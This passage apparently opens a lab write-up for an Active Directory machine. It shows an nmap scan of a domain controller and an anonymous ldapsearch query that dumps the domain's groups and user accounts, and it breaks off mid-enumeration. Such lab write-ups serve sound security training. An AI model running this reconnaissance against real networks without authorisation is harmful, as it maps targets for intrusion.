





## Initial foothold

First, We start by enumerating the machine using the following command: 

```bash
nmap -Pn -p- -A -oN scan 10.10.112.168
```
Here is the output of the previous command:

```bash 
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-10 19:33:00Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-02-10T19:34:28+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-02-10T19:33:49+00:00
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2024-02-09T19:25:49
|_Not valid after:  2024-08-10T19:25:49
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
52161/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-02-10T19:33:52
|_  start_date: N/A
```

- We started by enumerating the ldap directory
We used ldapsearch for enumerating entries inside the ldap directory :
```bash 
ldapsearch -H ldap://10.10.112.168 -x -b "dc=baby,dc=vl
```

```bash 
# LDAPv3
# base <dc=baby,dc=vl> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# baby.vl
dn: DC=baby,DC=vl

# Administrator, Users, baby.vl
dn: CN=Administrator,CN=Users,DC=baby,DC=vl

# Guest, Users, baby.vl
dn: CN=Guest,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Guest
description: Built-in account for guest access to the computer/domain
distinguishedName: CN=Guest,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121144952.0Z
whenChanged: 20211121144952.0Z
uSNCreated: 8197
memberOf: CN=Guests,CN=Builtin,DC=baby,DC=vl
uSNChanged: 8197
name: Guest
objectGUID:: 8XThJOa14ESxUfIZL3Bd9A==
userAccountControl: 66082
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 514
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtW9QEAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Guest
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# krbtgt, Users, baby.vl
dn: CN=krbtgt,CN=Users,DC=baby,DC=vl

# Domain Computers, Users, baby.vl
dn: CN=Domain Computers,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Domain Computers
description: All workstations and servers joined to the domain
distinguishedName: CN=Domain Computers,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12330
uSNChanged: 12332
name: Domain Computers
objectGUID:: 8qKP6f2OYESDGo4yvCZhJg==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWAwIAAA==
sAMAccountName: Domain Computers
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Domain Controllers, Users, baby.vl
dn: CN=Domain Controllers,CN=Users,DC=baby,DC=vl

# Schema Admins, Users, baby.vl
dn: CN=Schema Admins,CN=Users,DC=baby,DC=vl

# Enterprise Admins, Users, baby.vl
dn: CN=Enterprise Admins,CN=Users,DC=baby,DC=vl

# Cert Publishers, Users, baby.vl
dn: CN=Cert Publishers,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Cert Publishers
description: Members of this group are permitted to publish certificates to th
 e directory
distinguishedName: CN=Cert Publishers,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12342
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl
uSNChanged: 12344
name: Cert Publishers
objectGUID:: x28ME5jSJ0W4XxnLFk8cGQ==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWBQIAAA==
sAMAccountName: Cert Publishers
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Domain Admins, Users, baby.vl
dn: CN=Domain Admins,CN=Users,DC=baby,DC=vl

# Domain Users, Users, baby.vl
dn: CN=Domain Users,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Domain Users
description: All domain users
distinguishedName: CN=Domain Users,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12348
memberOf: CN=Users,CN=Builtin,DC=baby,DC=vl
uSNChanged: 12350
name: Domain Users
objectGUID:: yrTYUBBtnkyRqzm+ARpbng==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWAQIAAA==
sAMAccountName: Domain Users
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Domain Guests, Users, baby.vl
dn: CN=Domain Guests,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Domain Guests
description: All domain guests
distinguishedName: CN=Domain Guests,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12351
memberOf: CN=Guests,CN=Builtin,DC=baby,DC=vl
uSNChanged: 12353
name: Domain Guests
objectGUID:: 7f8QJoNCoka655vMSJ2Zww==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWAgIAAA==
sAMAccountName: Domain Guests
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Group Policy Creator Owners, Users, baby.vl
dn: CN=Group Policy Creator Owners,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Group Policy Creator Owners
description: Members in this group can modify group policy for the domain
member: CN=Administrator,CN=Users,DC=baby,DC=vl
distinguishedName: CN=Group Policy Creator Owners,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12354
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl
uSNChanged: 12391
name: Group Policy Creator Owners
objectGUID:: W6ir0I0zIU+vqIk7rbI/CQ==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWCAIAAA==
sAMAccountName: Group Policy Creator Owners
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# RAS and IAS Servers, Users, baby.vl
dn: CN=RAS and IAS Servers,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: RAS and IAS Servers
description: Servers in this group can access remote access properties of user
 s
distinguishedName: CN=RAS and IAS Servers,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12357
uSNChanged: 12359
name: RAS and IAS Servers
objectGUID:: wBcSheG2P0uiSxTMBNBFRw==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWKQIAAA==
sAMAccountName: RAS and IAS Servers
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Allowed RODC Password Replication Group, Users, baby.vl
dn: CN=Allowed RODC Password Replication Group,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Allowed RODC Password Replication Group
description: Members in this group can have their passwords replicated to all 
 read-only domain controllers in the domain
distinguishedName: CN=Allowed RODC Password Replication Group,CN=Users,DC=baby
 ,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12402
uSNChanged: 12404
name: Allowed RODC Password Replication Group
objectGUID:: ejILJr5sg0SodTROtBWkKA==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWOwIAAA==
sAMAccountName: Allowed RODC Password Replication Group
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Denied RODC Password Replication Group, Users, baby.vl
dn: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Denied RODC Password Replication Group
description: Members in this group cannot have their passwords replicated to a
 ny read-only domain controllers in the domain
member: CN=Read-only Domain Controllers,CN=Users,DC=baby,DC=vl
member: CN=Group Policy Creator Owners,CN=Users,DC=baby,DC=vl
member: CN=Domain Admins,CN=Users,DC=baby,DC=vl
member: CN=Cert Publishers,CN=Users,DC=baby,DC=vl
member: CN=Enterprise Admins,CN=Users,DC=baby,DC=vl
member: CN=Schema Admins,CN=Users,DC=baby,DC=vl
member: CN=Domain Controllers,CN=Users,DC=baby,DC=vl
member: CN=krbtgt,CN=Users,DC=baby,DC=vl
distinguishedName: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,
 DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12405
uSNChanged: 12433
name: Denied RODC Password Replication Group
objectGUID:: FlWRHCPS2kO+4s3ZtZ0CqQ==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWPAIAAA==
sAMAccountName: Denied RODC Password Replication Group
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Read-only Domain Controllers, Users, baby.vl
dn: CN=Read-only Domain Controllers,CN=Users,DC=baby,DC=vl

# Enterprise Read-only Domain Controllers, Users, baby.vl
dn: CN=Enterprise Read-only Domain Controllers,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Enterprise Read-only Domain Controllers
description: Members of this group are Read-Only Domain Controllers in the ent
 erprise
distinguishedName: CN=Enterprise Read-only Domain Controllers,CN=Users,DC=baby
 ,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12429
uSNChanged: 12431
name: Enterprise Read-only Domain Controllers
objectGUID:: VdcBFn79QU6kC1EKu4aWGw==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtW8gEAAA==
sAMAccountName: Enterprise Read-only Domain Controllers
sAMAccountType: 268435456
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Cloneable Domain Controllers, Users, baby.vl
dn: CN=Cloneable Domain Controllers,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Cloneable Domain Controllers
description: Members of this group that are domain controllers may be cloned.
distinguishedName: CN=Cloneable Domain Controllers,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12440
uSNChanged: 12442
name: Cloneable Domain Controllers
objectGUID:: AQdidj96k0yKAh5HXwjWWg==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWCgIAAA==
sAMAccountName: Cloneable Domain Controllers
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Protected Users, Users, baby.vl
dn: CN=Protected Users,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: Protected Users
description: Members of this group are afforded additional protections against
  authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=
 298939 for more information.
distinguishedName: CN=Protected Users,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145158.0Z
whenChanged: 20211121145158.0Z
uSNCreated: 12445
uSNChanged: 12447
name: Protected Users
objectGUID:: H0/844KdmEyf+3raVrqw6w==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWDQIAAA==
sAMAccountName: Protected Users
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
isCriticalSystemObject: TRUE
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 20211121145159.0Z
dSCorePropagationData: 16010101000417.0Z

# Key Admins, Users, baby.vl
dn: CN=Key Admins,CN=Users,DC=baby,DC=vl

# Enterprise Key Admins, Users, baby.vl
dn: CN=Enterprise Key Admins,CN=Users,DC=baby,DC=vl

# DnsAdmins, Users, baby.vl
dn: CN=DnsAdmins,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: DnsAdmins
description: DNS Administrators Group
distinguishedName: CN=DnsAdmins,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145238.0Z
whenChanged: 20211121145238.0Z
uSNCreated: 12486
uSNChanged: 12488
name: DnsAdmins
objectGUID:: jebp5c9rh0OaBfewI/Q3IQ==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWTQQAAA==
sAMAccountName: DnsAdmins
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 16010101000001.0Z

# DnsUpdateProxy, Users, baby.vl
dn: CN=DnsUpdateProxy,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: DnsUpdateProxy
description: DNS clients who are permitted to perform dynamic updates on behal
 f of some other clients (such as DHCP servers).
distinguishedName: CN=DnsUpdateProxy,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121145238.0Z
whenChanged: 20211121145238.0Z
uSNCreated: 12491
uSNChanged: 12491
name: DnsUpdateProxy
objectGUID:: Yc+jX1fev062aq+aBhDmbQ==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWTgQAAA==
sAMAccountName: DnsUpdateProxy
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 16010101000001.0Z

# dev, Users, baby.vl
dn: CN=dev,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: dev
member: CN=Ian Walker,OU=dev,DC=baby,DC=vl
member: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
member: CN=Hugh George,OU=dev,DC=baby,DC=vl
member: CN=Ashley Webb,OU=dev,DC=baby,DC=vl
member: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl
distinguishedName: CN=dev,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151102.0Z
whenChanged: 20211121151103.0Z
displayName: dev
uSNCreated: 12789
uSNChanged: 12840
name: dev
objectGUID:: YbzrRV+4J0W4be5Cc4WJiQ==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWTwQAAA==
sAMAccountName: dev
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 16010101000001.0Z

# Jacqueline Barnett, dev, baby.vl
dn: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Jacqueline Barnett
sn: Barnett
givenName: Jacqueline
distinguishedName: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151103.0Z
whenChanged: 20211121151103.0Z
displayName: Jacqueline Barnett
uSNCreated: 12793
memberOf: CN=dev,CN=Users,DC=baby,DC=vl
uSNChanged: 12798
name: Jacqueline Barnett
objectGUID:: /Lm9eucHIkS9Gr+pwGrvHA==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819810632000928
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWUAQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Jacqueline.Barnett
sAMAccountType: 805306368
userPrincipalName: Jacqueline.Barnett@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z

* Ashley Webb, dev, baby.vl
dn: CN=Ashley Webb,OU=dev,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ashley Webb
sn: Webb
givenName: Ashley
distinguishedName: CN=Ashley Webb,OU=dev,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151103.0Z
whenChanged: 20211121151103.0Z
displayName: Ashley Webb
uSNCreated: 12803
memberOf: CN=dev,CN=Users,DC=baby,DC=vl
uSNChanged: 12808
name: Ashley Webb
objectGUID:: P1UeCcUZGUO6xywh/3Gw/g==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819810633407081
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Ashley.Webb
sAMAccountType: 805306368
userPrincipalName: Ashley.Webb@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z

* Hugh George, dev, baby.vl
dn: CN=Hugh George,OU=dev,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Hugh George
sn: George
givenName: Hugh
distinguishedName: CN=Hugh George,OU=dev,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151103.0Z
whenChanged: 20211121151103.0Z
displayName: Hugh George
uSNCreated: 12813
memberOf: CN=dev,CN=Users,DC=baby,DC=vl
uSNChanged: 12818
name: Hugh George
objectGUID:: kzlvIum6eEqohHq3BwrYoA==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819810634363083
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWUgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Hugh.George
sAMAccountType: 805306368
userPrincipalName: Hugh.George@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z

* Leonard Dyer, dev, baby.vl
dn: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Leonard Dyer
sn: Dyer
givenName: Leonard
distinguishedName: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151103.0Z
whenChanged: 20211121151103.0Z
displayName: Leonard Dyer
uSNCreated: 12823
memberOf: CN=dev,CN=Users,DC=baby,DC=vl
uSNChanged: 12828
name: Leonard Dyer
objectGUID:: VkMQnkPgw0GAkDCiq9LOhA==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819810635678033
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWUwQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Leonard.Dyer
sAMAccountType: 805306368
userPrincipalName: Leonard.Dyer@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z

* Ian Walker, dev, baby.vl
dn: CN=Ian Walker,OU=dev,DC=baby,DC=vl

* it, Users, baby.vl
dn: CN=it,CN=Users,DC=baby,DC=vl
objectClass: top
objectClass: group
cn: it
member: CN=Teresa Bell,OU=it,DC=baby,DC=vl
member: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
member: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
member: CN=Caroline Robinson,OU=it,DC=baby,DC=vl
member: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
distinguishedName: CN=it,CN=Users,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151108.0Z
displayName: it
uSNCreated: 12845
memberOf: CN=Remote Management Users,CN=Builtin,DC=baby,DC=vl
uSNChanged: 12896
name: it
objectGUID:: qeenEG1110W2UCafhBWyfA==
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWVQQAAA==
sAMAccountName: it
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163013.0Z
dSCorePropagationData: 16010101000001.0Z

* Connor Wilkinson, it, baby.vl
dn: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Connor Wilkinson
sn: Wilkinson
givenName: Connor
distinguishedName: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151108.0Z
displayName: Connor Wilkinson
uSNCreated: 12849
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12854
name: Connor Wilkinson
objectGUID:: CSm4NoxCPEGpnplkzZapcw==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819810684117255
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWVgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Connor.Wilkinson
sAMAccountType: 805306368
userPrincipalName: Connor.Wilkinson@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z


 * Caroline Robinson, it, baby.vl
dn: CN=Caroline Robinson,OU=it,DC=baby,DC=vl

* Joseph Hughes, it, baby.vl
dn: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Joseph Hughes
sn: Hughes
givenName: Joseph
distinguishedName: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151108.0Z
displayName: Joseph Hughes
uSNCreated: 12869
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12874
name: Joseph Hughes
objectGUID:: ro0OQulY1U+EZmNSj15XBw==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819810685992446
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWAQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Joseph.Hughes
sAMAccountType: 805306368
userPrincipalName: Joseph.Hughes@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
